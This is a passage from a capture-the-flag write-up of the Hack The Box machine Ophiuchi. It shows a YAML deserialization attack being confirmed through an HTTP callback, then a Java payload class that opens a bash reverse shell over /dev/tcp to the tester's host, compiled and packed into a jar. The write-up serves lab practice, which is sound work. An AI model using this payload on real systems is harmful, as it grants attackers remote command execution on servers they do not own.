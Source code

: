 ![](images/Pasted%20image%2020210914142903.png)

```default
kali@kali:~/Documents/CTF/HTB/Machines/Ophiuchi$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.227 - - [14/Sep/2021 14:29:36] code 404, message File not found
10.10.10.227 - - [14/Sep/2021 14:29:36] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 404 -
```

With the incoming request on our HTTP server, we can confirm that the web server is in fact parsing the YAML payload. The next step would be to generate a payload that send us a reverse shell. The repository which provided the YAML payload contains a template Java file that can be used to generate a payload that will execute when the YAML has been parse. The only code which we need to change is in the constructor since that's where the reverse shell is created and the rest of the template is simply ensuring the interface's requirements are met. 

```default
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.16/4444;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

All that is left now is to run compile the payload and execute the payload.

```default
kali@kali:~/Documents/CTF/HTB/Machines/Ophiuchi/yaml-payload$ javac src/artsploit/AwesomeScriptEngineFactory.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
kali@kali:~/Documents/CTF/HTB/Machines/Ophiuchi/yaml-payload$ jar -cvf yaml-payload.jar -C src/ .
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
added manifest
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/exploit.class(in = 1679) (out= 715)(deflated 57%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1568) (out= 463)(deflated 70%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1734) (out= 759)(deflated 56%)
kali@kali:~/Documents/CTF/HTB/Machines/Ophiuchi/yaml-payload$ 
```
